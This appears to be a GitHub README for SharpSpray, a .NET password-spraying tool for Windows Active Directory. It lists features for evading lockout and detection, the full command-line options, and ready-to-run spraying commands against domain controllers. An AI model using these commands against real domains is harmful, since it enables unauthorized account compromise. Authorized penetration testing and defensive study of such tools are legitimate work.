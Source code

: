 <div align="center">
    <h1>SharpSpray</h1>
    <br/>
</div>

SharpSpray is a Windows domain password spraying tool written in .NET C#.

## Introduction

SharpSpray is a C# port of [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) with enhanced and extra capabilities. This tool uses LDAP Protocol to communicate with the Domain active directory services.

### Features
- Can operate from inside and outside a domain context.
- Exclude domain disabled accounts from the spraying.
- Auto gathers domain users from the Active directory.
- Avoid potential lockouts by excluding accounts within one attempt of locking out.
- Avoid potential lockouts by auto-gathering domain lockout observation window settings.
- Compatible with Domain Fine-Grained Password policies.
- Custom LDAP filter for users, e.g. (description=*admin*)
- Delay in seconds between each authentication attempt.
- Jitter between each authentication attempt.
- Support a single password or a list of passwords.
- Single file Console Application.


## Usage

### Command Line Args
```
> SharpSpray.exe --help

  -v, --Verbose       (Default: false) Show verbose messages.
  -u                  (Optional) Username list file path. This will be
                      automatically fetched from the active directory if not
                      specified.
  -p                  A single password that will be used to perform the
                      password spray.
  -k, --pl            (Optional) Password List file path.
  -d                  (Group: OutsideDomain) (Optional) Specify a domain name.
  -m                  (Group: OutsideDomain) (Default: false) Use this option if
                      spraying from a host located outside the Domain context.
  -q, --dc-ip         (Group: OutsideDomain) Required when the option 'm'
                      OutsideDomain is checked
  -x                  (Default: false) Attempts to exclude disabled accounts
                      from the user list (Not supported with the option -m)
  -z                  (Default: false) Exclude accounts within 1 attempt of
                      locking out (Not supported with the option -m)
  -f                  Custom LDAP filter for users, e.g. "(description=*admin*)"
  -o                  A file to output the results to.
  -w                  (Group: OutsideDomain) (Default: 32) Do not relay on
                      domain lockout observation window settings and use this
                      specific value. (Default 32 minute)
  -s                  Delay in seconds between each authentication attempt.
  -j
  --Force             Force start without asking for confirmation.
  --get-users-list    Get the domain users list from the active directory.
  --show-examples     Get domain users list from the active directory.
  --show-args         Show command line args
  --help              Display this help screen.
```

### Usage Examples
```
SharpSpray.exe -v -x -z --pl password.txt
SharpSpray.exe -x -z -u users.txt --pl psswd.txt
SharpSpray.exe -x -z -u users.txt -p Passw0rd!
SharpSpray.exe -x -z -s 3 -j 1 -u users.txt -k psswd.txt -o sprayed.txt

SharpSpray.exe -w 32 -m -d DC-1.local --dc-ip 10.10.20.20 -u users.txt --pl psswd.txt
SharpSpray.exe -w 32 -s 3 -j 1 -m -d DC-1.local --dc-ip 10.10.20.20 -u users.txt --pl psswd.txt

SharpSpray.exe --get-users-list
SharpSpray.exe --get-users-list > users.txt
PS> .\SharpSpray.exe --get-users-list | Out-File -Encoding ascii users.txt
```

### Fetching only the users list from the Active Directory

The following command will fetch domain users and prints the list to the console.

```
SharpSpray.exe -x -z --get-users-list

-x: Exclude disabled accounts from the user list.
-z: Exclude accounts within 1 attempt of locking out.
```




### Meta
[SharpSpray | Active Directory Password Spraying Tool](https://c99.sh/sharpspray-active-directory-password-spraying-tool/)